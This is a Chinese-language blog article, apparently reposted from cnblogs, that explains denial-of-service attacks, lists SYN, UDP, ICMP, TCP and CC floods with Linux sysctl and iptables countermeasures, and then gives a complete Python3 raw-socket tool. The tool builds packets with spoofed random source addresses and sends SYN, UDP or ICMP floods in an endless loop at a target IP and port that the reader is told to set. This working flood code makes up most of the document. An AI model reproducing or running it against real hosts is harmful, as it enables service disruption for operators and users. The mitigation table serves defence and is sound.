




# 拒绝服务（DoS）理解、防御与实现

src:https://www.cnblogs.com/lsdb/p/9713821.html

# 一、说明
我一直不明白为什么拒绝服务，初学着喜欢拿来装逼、媒体喜欢吹得神乎其神、公司招聘也喜欢拿来做标准，因为我觉得拒绝服务和社会工程学就是最名不副实的两样东西。当然由于自己不明确拒绝服务在代码上是怎么个实现过程，所以虽然如此认为但不免底气不足。趁着有时间来考究一番。

 

# 二、拒绝服务定义
Denial of Service，简写DoS，拒绝服务是英文名直接翻译，指的是正常用户无法得到服务的现像。广义上包括通过缓冲区溢出等漏洞进行攻击使服务挂掉、发送大量数据包占用完系统分配给服务的资源、发送大量数据包占用完所有系统资源三种情况。一般的拒绝服务指后两种，最经典的拒绝服务指最后一种。

由于后两种手段都是发送大量数据包结果都是拒绝服务所以大概很多人都视为一类，但追究而言其结果还是有很大差别的。

如果系统对服务可用的资源进行了限制，比如最多3000个连接（假设此时cpu百分之五十），攻击时3000个连接用完新连接不能建立，但是此时cpu不会达到百分之百，如果是长连接那么已连接上来的用户仍可享受服务。

如果系统没有对服务可用的资源进行限制，那么通过dos就可以不断发起连接，直至目标主机cpu达到百分之百，轻则系统自动重启重则导致发热严重引起短路。


 # 三、拒绝服务的分类
## 3.1 dos基本类型

攻击方法| 攻击原理| 目标| 是否需要真实源IP| DoS攻击效果|防范方法
--- | --- | --- | ----- | ----- | -----
icmp flood | 通过发送icmp数据包让主机回应以占用资源| 主机 | 否。但是只能防封ip不能增加服务端资源消耗 |一般。攻击机与目标机耗同样的资 |禁ping（net.ipv4.icmp_echo_ignore_all=1）
udp flood	| 向端口发送大量udp数据包判断是否监听和回应都耗资源	| udp端口	| 否。但是只能防封ip不能增加服务端资源消耗	| 一般。攻击机与目标机耗同样的资源| 	禁返回端口不可达（type3/code3，iptables -I OUTPUT -p icmp --icmp-type destination-unreachable -j DROP）
syn flood|	只发送syn不发送ack使目标机处于等待ack的资源占用方式|		tcp端口	|	否。|		优。由于目标机要等待所以目标机会耗更多资源	|	缩短syn timeout（net.ipv4.tcp_synack_retries = 5）、使用syn cookie（net.ipv4.tcp_syncookies = 1）
tcp flood	|攻击攻与目标击完成三次握手并保持连接以此占用资源|	tcp端口	|是。	|一般。攻击机与目标机耗同样的资源	|限制单个ip连接数（iptables -I INPUT -p tcp –dport 80 -m connlimit –connlimit-above 20 -j DROP）
CC	|对某个页面发送大量请求直致其无法正常显示	http端口	|是。	|良。|由于目标机要生成页面会耗更多资源	|限制单个ip连接数（iptables -I INPUT -p tcp –dport 80 -m connlimit –connlimit-above 20 -j DROP）

## 3.2 dos增强方法
在上面中我们看到即便是效果最好的syn flood也只能让攻击机比目标机消耗一些资源，单纯地直接DoS顶多也只是杀敌一千自损八百，而且往往服务器性能要比攻击机强直接DoS效果是不会很好的。

攻击方式|全称|攻击机|可用于的攻击方法|可胜任攻击目标
--- | --- | --- | ----- | ----- 
DoS	| Denial-of-Service| 	单台攻击机直接DoS	| icmp/udp/syn/tcp/cc	| IOT硬件
DDoS| 	Distributed Denial-of-Service	| 多台受控机一同进行DoS	| icmp/udp/syn/tcp/cc	| 小型网站
DRDoS	| Distributed Reflection Denial-of-Service	| 多台第三方机进行反射 |DoS	| icmp/udp/syn/tcp| 	大型网站

# 四、dos攻击代码（syn/udp/icmp）
程序使用Python3编写，实现syn/udp/icmp flood（这三个需要自己设置原始套接字，tcp和cc自己像普通网络编程写一下即可），运行时自己修改目标ip和端口和dos类型；由于构造原始数据包所以要使用管理员权限运行。

windows上运行有问题，syn运行报“OSError: [WinError 10022] 提供了一个无效的参数”，udp和icmp没拦截到数据包；但在在kali上运行都是没问题的。

另外，如果对此程序进行以下三项改造：去掉不断发送数据包的while、将源ip固定为本机ip并使用recvfrom函数接收返回数据包、对recvfrom到的数据包进行分析，那就成了一个类似nmap的系统扫描器。

## 4.1 代码

```python
import binascii
import random
import socket
import struct

class DosTool:
    # 此函数用于计算校验和函数，tcp/udp/icmp都使用此函数计算
    def calc_checksum(self, header):
        # 校验和，初始置0
        checksum = 0
        # 遍历头部，步长为2
        for i in range(0, len(header), 2):
            # 获取第一个字节值
            tmp = header[i]
            # 第一字节左移8位，腾出低8位给第二个字节，两者相加，就相当于取了一个word
            tmp = (tmp << 8) + header[i + 1]
            # 取出的word累加
            checksum += tmp
        # 一般都会溢出，将超过16字节的部份加到低位去
        checksum = (checksum & 0xffff) + (checksum >> 16)
        # 有可能再次溢出，所以尝试再次将超过16字节的部份加到低位去
        # 理论上应该不会再次溢出，所以有些文章这里用while感觉不是必须的
        checksum += (checksum >> 16)
        # 取反码
        checksum = ~checksum & 0xffff
        return checksum

    # 此函数用于生成tcp和udp的伪首部（伪首部参与校验和计算，但icmp不需要伪首部）
    def gen_psd_header(self,source_addr,dest_addr,protocol,header_and_data_length):
        # 源ip地址，32位
        psd_source_addr = socket.inet_aton(source_addr)
        # 目标ip地址，32位
        psd_dest_addr = socket.inet_aton(dest_addr)
        # 填充用的，置0,8位
        psd_mbz = 0
        # 协议，8位
        psd_ptcl = protocol
        # 传输层头部（不包括此首部）加其上层数据的长度
        psd_lenght = header_and_data_length
        # 生成伪首部
        psd_header = struct.pack("!4s4sBBH", psd_source_addr, psd_dest_addr, psd_mbz, psd_ptcl, psd_lenght)
        # 返回伪首部
        return psd_header

    # 此函数用于生成tcp头
    def gen_tcp_header(self,source_addr,dest_addr,source_port,dest_port):
        # tcp源端口，16位；在syn攻击中设为随机端口
        tcp_source_port = source_port
        # tcp目标端口，16位；在syn攻击中设为攻击目标端口
        tcp_dest_port = dest_port
        # 数据包序列号，32位；在syn攻击中使用随机生成
        tcp_seq = random.randint(0x10000000,0xffffffff)
        # 要确认已收到的数据包的序列号，32位；由于是syn包，所以ack为0
        tcp_ack = 0
        # tcp头部长度，4位；标准tcp头部长度为20个字节（20/4=5）
        tcp_header_lenght = (5 << 4 | 0)
        # 本来是长度4位、保留位6位、标志位6位
        # 但保留位一般不用都是0，所以这里直接将保留中的4个0分入长度中，2个0分入标志位中，保留位直接不用管
        # tcp_reserved = 0
        # 标志位，6位；6个标志位依次为URG/ACK/PSH/RST/SYN/FIN，所以syn对应标志位为000010，即2
        tcp_flag = 2
        # 窗口大小，16位；不知道对抗syn的防火墙有没有根据这个值做策略的，比如大量窗口大小一样的认为受到syn攻击，大量不常窗口大小也认为受到syn
        tcp_win_size = 0x2000
        # tcp头部校验和，16位；开始时我们置0，以使头部校验和一起计算也不影响校验和结果
        tcp_header_checksum = 0
        # 这个值暂时没懂做什么用，16位
        tcp_urp = 0

        # 首次组装tcp头部，开头的!表示bigend模式，B/H/L分别表示将后边对应位次的值格式化成无符号的1/2/4字节长度
        tcp_header = struct.pack("!HHLLBBHHH",tcp_source_port,tcp_dest_port,tcp_seq,tcp_ack,tcp_header_lenght,tcp_flag,tcp_win_size,tcp_header_checksum,tcp_urp)
        # print(f"packet is {binascii.b2a_hex(tcp_header)}")

        # 生成伪首部
        protocol = socket.IPPROTO_TCP
        # 注意传给伪首部的长度是整个tcp报文（tcp头部+数据）的长度，而不是tcp头部的长度
        # 只是由于syn数据包不带数据所以这里才可以写成len(tcp_header)
        header_and_data_length = len(tcp_header)
        # 伪首部
        psd_header = self.gen_psd_header(source_addr,dest_addr,protocol,header_and_data_length)
        # 组装成用来计算校验和的头部，tcp数据应该不像udp数据那样需要参与校验和计算但也不是十分肯定，当然syn本身是没数据的要不要参与都没影响
        virtual_tcp_header = psd_header + tcp_header
        # 调用calc_checksum()计算校验和
        tcp_header_checksum = self.calc_checksum(virtual_tcp_header)

        # 计算得到校检和之后，再次组装，得到真正的tcp头部
        tcp_header = struct.pack("!HHLLBBHHH", tcp_source_port, tcp_dest_port, tcp_seq, tcp_ack, tcp_header_lenght, tcp_flag, tcp_win_size, tcp_header_checksum, tcp_urp)
        # print(f"tcp header is {binascii.b2a_hex(tcp_header)}")

        return tcp_header

    # 此函数用于生成udp头
    def gen_udp_header(self,source_addr,dest_addr,source_port,dest_port,udp_data):
        # udp源端口，16位；在dos攻击中设为随机端口
        udp_source_port = source_port
        # udp目标端口，16位；在dos攻击中设为攻击目标端口
        udp_dest_port = dest_port
        # udp数据包长度，包括udp头和udp数据，16位
        udp_lenght = 8 + len(udp_data)
        # udp头部校验和，16位
        udp_header_checksum = 0

        # 未加入校验和的udp头
        udp_header_no_checksum = struct.pack("!HHHH", udp_source_port, udp_dest_port, udp_lenght, udp_header_checksum)
        # 生成伪首部
        protocol = socket.IPPROTO_UDP
        psd_header = self.gen_psd_header(source_addr,dest_addr,protocol,udp_lenght)
        # 拼成虚拟头部用以计算校验和，udp携带的数据参与校验和计算
        virtual_udp_header = psd_header + udp_header_no_checksum + udp_data.encode()
        udp_header_checksum = self.calc_checksum(virtual_udp_header)
        # 生成真正的udp头部
        udp_header = struct.pack("!HHHH", udp_source_port, udp_dest_port, udp_lenght, udp_header_checksum)

        return udp_header

    # 此函数用于生成icmp头
    def gen_icmp_header(self):
        # icmp类型，ping固定为8，8位
        icmp_type = 8
        # 8位
        icmp_code = 0
        # icmp头部校验和，16位
        icmp_header_checksum = 0
        # icmp没有端口，需要使用某个值担当起端口的标识作用，以区分收到的icmp包是对哪个icmp进程的响应
        # icmp识别号，16位；
        # 响应包中该值与请求包中一样，linux设置为进程pid，windows不同版本操作系统设为不同固定值
        # linux操作系统使用该值区分不同icmp进程
        icmp_identifier = random.randint(1000,10000)
        # icmp请求序列号，16位
        # 从0开始递增（存疑），每发一个icmp包就加1；响应包中该值与请求包中一样
        # windows使用该值来区分不同icmp进程
        icmp_seq_num = random.randint(1000,10000)
        # icmp携带数据，响应中会回显同样的数据
        # 此数据长度正是icmp dos的关键，越长目标主机处理所用的资源就越多，攻击效果就越明显
        icmp_data = "abcdefghijklmnopqrstuvwxyz"

        # 未加入校验和的icmp头
        icmp_data_length = len(icmp_data)
        icmp_header_no_checksum = struct.pack(f"!BBHHH{icmp_data_length}s",icmp_type,icmp_code,icmp_header_checksum,icmp_identifier,icmp_seq_num,icmp_data.encode())

        # 计算校验和，icmp校验和只需要icmp头自己参与计算，不需要伪首部（没有端口tcp/udp那样的伪首部要也生成不了）
        icmp_header_checksum = self.calc_checksum(icmp_header_no_checksum)

        # 生成真正的icmp头
        icmp_header = struct.pack(f"!BBHHH{icmp_data_length}s",icmp_type,icmp_code,icmp_header_checksum,icmp_identifier,icmp_seq_num,icmp_data.encode())
        return icmp_header

    # 此函数用于生成ip头
    def gen_ip_header(self,source_addr,dest_addr,transport_segment_size,transport_layer_protocol):
        # 版本号4位，长度4位，方便起见这里放一起赋值
        ip_version_and_lenght = 0x45
        # 服务类型，8位，置0
        ip_tos = 0
        # 整个ip数据包长度（ip头长度+tcp报文长度），8位；
        # ip头长度为5*4=20字节，tcp_total_size指的是整个ip报文的长度而不单指tcp头部的长度，只是syn数据包不带数据，所以刚好ip报文的长度等于tcp头部的长度
        ip_total_lenght = 20 + transport_segment_size
        # 这个值当前暂时不懂有什么作用
        ip_identitication = 1

        ip_flags_and_frag = 0x4000
        # ttl，8位
        ip_ttl = 128
        # 上层协议，8位
        ip_protocol = transport_layer_protocol
        # ip头部校验和，16位
        ip_header_checksum = 0
        # 源ip地址，32位
        ip_source_addr = socket.inet_aton(source_addr)
        # 目标ip地址，32位
        ip_dest_addr = socket.inet_aton(dest_addr)
        # 首次组装ip头部，开头的!表示bigend模式，B/H/L分别表示将后边对应位次的值格式化成无符号的1/2/4字节长度
        ip_header = struct.pack("!BBHHHBBh4s4s", ip_version_and_lenght, ip_tos, ip_total_lenght, ip_identitication, ip_flags_and_frag, ip_ttl, ip_protocol, ip_header_checksum,
                                ip_source_addr,ip_dest_addr)
        print(f"packet is {binascii.b2a_hex(ip_header)}")
        # 调用calc_checksum()计算ip头部校验和
        ip_header_checksum = self.calc_checksum(ip_header)
        # 计算得到校检和之后，再次组装，得到真正的IP头部
        ip_header = struct.pack("!BBHHHBBH4s4s", ip_version_and_lenght, ip_tos, ip_total_lenght, ip_identitication, ip_flags_and_frag, ip_ttl, ip_protocol, ip_header_checksum,ip_source_addr, ip_dest_addr)
        print(f"ip header is {binascii.b2a_hex(ip_header)}")

        return ip_header

    # 此函数用于生成要发送的ip数据包
    def gen_dos_ip_packet(self,transport_layer_protocol):
        # 源IP地址；syn攻击，所以随机生成
        source_addr = f"{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}"
        # source_addr = "10.10.6.91"
        # 源端口；syn攻击，所以随机生成
        source_port = random.randint(10000, 60000)
        # source_port = 12345
        # 根据设定的dos类型，生成ip协议载荷
        if transport_layer_protocol == socket.IPPROTO_TCP:
            tcp_header = self.gen_tcp_header(source_addr, dest_addr, source_port, dest_port)
            transport_segment = tcp_header
        elif transport_layer_protocol == socket.IPPROTO_UDP:
            # udp数据包携带的数据，数据越长目标主机接收数据包所用资源就越多，攻击效果就越好
            # 不过udp中这些数据都不返回而icmp中会原样返回，所以就效果上应该是icmp攻击比udp好一点
            udp_data = "abcdefghijklmnopqrstuvwxyz"
            udp_header = self.gen_udp_header(source_addr,dest_addr,source_port,dest_port,udp_data)
            transport_segment = udp_header + udp_data.encode()
        elif transport_layer_protocol == socket.IPPROTO_ICMP:
            icmp_header = self.gen_icmp_header()
            transport_segment = icmp_header
        # 整个ip协议载荷的长度
        transport_segment_size = len(transport_segment)
        # 调用gen_ip_header()获取ip头
        ip_header = dos_tool_obj.gen_ip_header(source_addr, dest_addr, transport_segment_size, transport_layer_protocol)
        # 组合ip头部和ip载荷，构成完整ip数据包
        dos_ip_packet = ip_header + transport_segment

        return dos_ip_packet


    def exec_dos_attack(self,dest_addr,dest_port,dos_type):
        dos_type = dos_type.lower()
        if dos_type == 'syn':
            transport_layer_protocol = socket.IPPROTO_TCP
        elif dos_type == 'udp':
            transport_layer_protocol = socket.IPPROTO_UDP
        elif dos_type == 'icmp':
            transport_layer_protocol = socket.IPPROTO_ICMP
        # 构造socket
        dos_socket = socket.socket(socket.AF_INET, socket.SOCK_RAW, transport_layer_protocol)
        dos_socket.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
        # 不断生成和发送数据包
        while True:
            ip_packet = self.gen_dos_ip_packet(transport_layer_protocol)
            dos_socket.sendto(ip_packet, (dest_addr, dest_port))
            print(f"packet send success")
            # 如果不是一直发送，而是发送一个syn包后接收返回数据进行分析，那就是syn扫描
            # 此时接收到的是ip层及之后各层的数据；如“450000285c3740004006bdce0a0a065b0a0a065c846c0016324322fe07ff0b165010402962080000”
            # return_data = dos_socket.recvfrom(1024)[0]
            # print(f"receive return data: {binascii.b2a_hex(return_data)}")


if __name__ == "__main__":
    # 实例化
    dos_tool_obj = DosTool()
    # 目标ip地址；改成自己要攻击的ip地址
    dest_addr = "10.10.6.91"
    # 目标端口；改成自己要攻击的目标端口
    dest_port = 21
    # dos类型，可以是syn/udp/icmp
    dos_type = 'udp'
    dos_tool_obj.exec_dos_attack(dest_addr, dest_port, dos_type)
```

## 4.2 运行截图
### 4.2.1 syn flood运行截图
在下图中可以看到，和预期一样：

目标ip和端口收到大量来自不同源地址的syn包、目标ip主机上建立大量等待ack的连接、checksum是正确的





### 4.2.2 udp flood运行截图
在下图中可以看到，和预期一样：

目标ip和端口收到大量来自不同源地址的udp数据包、目标端口没有udp监听所以返回端口不可达ICMP（type3/code3）、checksum是正确的


### 4.2.3 icmp flood运行截图
在下图中可以看到，和预期一样：

目标ip收到大量来自不同源地址的icmp（type8/code0）数据包、目标ip返回返回响应（tpye0/code0）、checksum是正确的


**参考：**

<http://www.faqs.org/rfcs/rfc793.html>

<https://tools.ietf.org/html/rfc768>

<https://tools.ietf.org/html/rfc792>